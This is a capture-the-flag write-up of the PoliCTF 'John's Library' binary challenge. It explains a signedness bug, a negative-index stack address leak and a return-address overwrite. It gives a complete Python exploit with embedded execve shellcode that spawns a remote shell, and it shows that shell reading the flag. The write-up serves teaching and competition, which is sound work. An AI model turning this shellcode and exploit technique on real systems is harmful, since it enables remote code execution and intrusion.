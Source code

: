 ### Solved by barrebas and Swappage

Finally, pwnables! John's Library was worth 150 points. I was a bit rusty but I managed to grab this flag. 

<!--more-->

We're given a 32 bit Linux ELF. Upon running it, we're presented with a library menu, where we can view titles, add them and exit the program:

```bash
Welcome to the jungle library mate! Try to escape!!
 
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title: 
10000
Hey you! what are you trying to do??
```

So we can't really add long titles. Upon inspection, Swappage and I noticed that the titles are stored on the stack, with the lengths in a special data structure in the `.data` of the binary:

```
 8048731: mov    eax,DWORD PTR [eax*4+0x804a060] ; 0x804a060 contains lengths
 8048738: mov    edx,eax
 804873a: mov    eax,DWORD PTR [ebp+0x8]         ; ptr to first book
 804873d: add    eax,edx                         ; add length of last string to it
 804873f: mov    DWORD PTR [esp],eax
 8048742: call   8048410 <gets@plt>              ; grab book title
```

I noticed I could bypass the length check with a large number, effectively utilizing a signedness bug. This allowed us to overwrite the return address of `main()` on the stack. Although NX wasn't enabled, ASLR was enabled so we couldn't just jump to the shellcode on the stack. There weren't enough gadgets for a ROP chain. Instead, we needed to leak a stack address so we could return to the shellcode on the stack (bruteforcing it didn't work). That's where the read function came into play.

Looking up a book title via the read function was done like this:

```
 8048678: mov    eax,DWORD PTR [ebp-0xc]         ; number we just submitted
 804867b: mov    eax,DWORD PTR [eax*4+0x804a060] ; grab length of that book title
 8048682: mov    edx,eax
 8048684: mov    eax,DWORD PTR [ebp+0x8]         ; pointer to book titles on stack
 8048687: add    eax,edx                         ; add length of string so eax points to book title 
 8048689: mov    DWORD PTR [esp+0x4],eax
 804868d: mov    DWORD PTR [esp],0x8048893
 8048694: call   80483f0 <printf@plt>            ; dump title to user
```

By passing in a negative number, I was able to make `804867b: mov eax,DWORD PTR [eax*4+0x804a060]` point to `0x80493fc`, which contained `0xffffffe0`. Therefore, when this value is added to the pointer to the book titles, it actually is moved backwards and starts leaking stack addresses:

```
0xffffd1ab (address of book titles on stack) + 0xffffffe0 => 
gdb-peda$ x/10x $eax
0xffffd18b: 0x048614->ff    0xffd1ab<-08    0x000002ff  0x15fd7c00
0xffffd19b: 0x15fd7c00  0x15fd7c00  0x0000f000  0x0000f000
```

I now had a way to leak the book title buffer on the stack, where we could store shellcode in a book title. By exploiting the signedness bug, we could overwrite the return address of `main()`. After setting all of this up, we'd ask the binary to exit and make it return to our shellcode. Putting it all together:

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('library.polictf.it', 80))

    readtil('exit')
    
    # mem leak
    sendln('r')
    readtil('read:')
    sendln('-793')  
    # -793*4 = 0xfffff39c; 
    # 0x804867b <read_from_library+58>: mov eax,DWORD PTR [eax*4+0x804a060] 
    # -> 0x80493fc == 0xffffffe0
    
    # leak stack addr
    time.sleep(0.1)
    buf = s.recv(20)
    stackaddr = struct.unpack('<L', buf[6:10])[0]
    print hex(stackaddr+100)
    readtil('exit')
        
    sendln('a')
    readtil('title:')
    sendln('1')
    sendln('b')
    
    readtil('exit')
    
    sendln('a')
    readtil('title:')
    # 2**32 -> integer overflow, 
    # we now have plenty of space to overwrite the saved return address
    sendln('4294967296') 
    
    # the reason i divided the nop sled is simple; for some reason, when the shellcode executes, 
    # it overwrites itself if it's at the end. this solves it; didn't debug it 
    sendln("\x90"*(0x30f-37)+"\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcc\x80"+"A"*0x100+p(stackaddr+200)) # 0xffffd1ad -> start of our buffer
        
    readtil('exit')
    sendln('u')
    
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()

pwn()
```

And running it:

```bash
bas@tritonal:~/tmp/polictf/johns-library$ python sn0w.py 

id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cd /home/ctf
ls
challenge
flag
cat flag
flag{John_should_read_a_real_book_on_s3cur3_pr0gr4mm1ng}
```

The flag was `flag{John_should_read_a_real_book_on_s3cur3_pr0gr4mm1ng}`.

